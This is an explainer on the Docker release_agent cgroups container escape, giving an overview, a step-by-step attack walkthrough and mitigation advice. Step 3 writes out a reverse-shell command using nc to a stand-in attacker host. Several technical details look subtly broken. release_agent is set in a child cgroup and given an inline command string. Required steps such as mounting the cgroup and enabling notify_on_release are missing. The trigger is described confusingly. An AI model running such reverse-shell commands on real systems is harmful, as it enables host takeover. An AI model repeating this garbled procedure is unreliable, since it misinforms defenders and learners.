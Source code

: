 # Docker release_agent cgroups escape


# 👉 Overview

---

### 👀 What ?

> Docker release_agent cgroups escape is a security exploit that allows an attacker to gain unauthorized access to the host system from a Docker container. Control Groups (cgroups) is a Linux kernel feature to limit, police and account the resource usage for certain system processes, and release_agent is a property of cgroups that specifies a script to execute when the cgroup becomes empty.
> 

### 🧐 Why ?

> Understanding Docker release_agent cgroups escape is important because it poses a significant security risk. If an attacker can escape from a Docker container to the host system, they can potentially gain full control over the system, access sensitive information, and carry out further attacks. As Docker is widely used in the IT industry, this issue is of particular concern to system administrators and cybersecurity professionals.
> 

### ⛏️ How ?

> To exploit this vulnerability, an attacker needs to have access to a Docker container and the ability to run commands within it. The attacker can then create a new cgroup, set the release_agent property to the command they want to execute on the host system, and move the Docker process to the new cgroup. When the Docker process exits and the cgroup becomes empty, the release_agent script is executed, resulting in the command being run on the host system. To protect against this exploit, system administrators should restrict container access, regularly update and patch systems, and monitor for suspicious activity.
> 

### ⏳ When ?

> The Docker release_agent cgroups escape exploit has been known since at least 2016, when it was first reported. Despite patches and updates, variations of this exploit may still be possible on systems that are not properly secured or updated.
> 

# ⚙️ Technical Explanations

---

### Overview

The Docker release_agent cgroups escape exploit is a critical security vulnerability that leverages the Linux kernel's cgroups (control groups) feature in combination with Docker, a popular containerization platform. This exploit allows a malicious actor to escape from a Docker container and execute arbitrary commands on the host system.

### How the Exploit Works

1. **Understanding cgroups**:
    - cgroups is a Linux kernel feature that limits, accounts for, and isolates the resource usage (CPU, memory, disk I/O, etc.) of a collection of processes.
    - One of the properties of cgroups is `release_agent`, which specifies a script to be executed when the cgroup becomes empty.
2. **Docker and cgroups**:
    - Docker containers use cgroups to manage and isolate the resources used by the container.
    - If an attacker gains access to a Docker container, they can potentially manipulate cgroups to escape the container's isolation.
3. **Exploiting the release_agent**:
    - By setting the `release_agent` property of a cgroup to a malicious command, an attacker can cause this command to be executed on the host system when the cgroup becomes empty.

### Step-by-Step Example of the Exploit

### Step 1: Gain Access to a Docker Container

The attacker first gains access to a Docker container. This could be done through exploiting a weak password, a software vulnerability, or another method. For instance, using Docker CLI:

```bash
docker exec -it <container_id> bash

```

### Step 2: Create a New cgroup

Inside the container, the attacker creates a new cgroup. This can be done using the `mkdir` command:

```bash
mkdir /sys/fs/cgroup/cpu/demo

```

### Step 3: Set the release_agent Property

The attacker sets the `release_agent` property of the new cgroup to a malicious command that they wish to execute on the host system. For example, to create a backdoor, the attacker might set it to open a reverse shell:

```bash
echo "/bin/sh -c 'nc -e /bin/sh attacker_ip attacker_port'" > /sys/fs/cgroup/cpu/demo/release_agent

```

### Step 4: Move the Docker Process to the New cgroup

The attacker then moves the Docker process to the new cgroup. They can do this by identifying the process ID (PID) of the Docker process and writing it to the `cgroup.procs` file of the new cgroup:

```bash
echo $$ > /sys/fs/cgroup/cpu/demo/cgroup.procs

```

### Step 5: Trigger the release_agent

When the Docker process exits and the cgroup becomes empty, the `release_agent` script is executed on the host system, not inside the container. As a result, the malicious command specified in step 3 is run on the host system, potentially leading to a full system compromise.

### Mitigation Strategies

1. **Limit Access to Docker Containers**:
    - Restrict access to Docker containers to only trusted users.
    - Use strong passwords and authentication mechanisms.
2. **Regular Updates and Patching**:
    - Keep the Docker daemon, host operating system, and all software dependencies up-to-date with the latest security patches.
3. **Monitoring and Auditing**:
    - Monitor system logs and audit Docker containers for suspicious activity.
    - Use security tools to detect anomalies and potential breaches.
4. **Disable Unnecessary Features**:
    - Disable or restrict the use of features that are not needed, such as the ability to create and manipulate cgroups.
5. **Implement Security Controls**:
    - Use AppArmor, SELinux, or other mandatory access control systems to enforce security policies on Docker containers.
    - Limit the capabilities of containers to the minimum required for their operation.

### Conclusion

The Docker release_agent cgroups escape exploit highlights the importance of securing containerized environments. By understanding how cgroups can be manipulated and taking appropriate mitigation steps, administrators can protect their systems from such exploits. Regular monitoring, updating, and the implementation of robust security controls are essential to maintain a secure Docker environment.
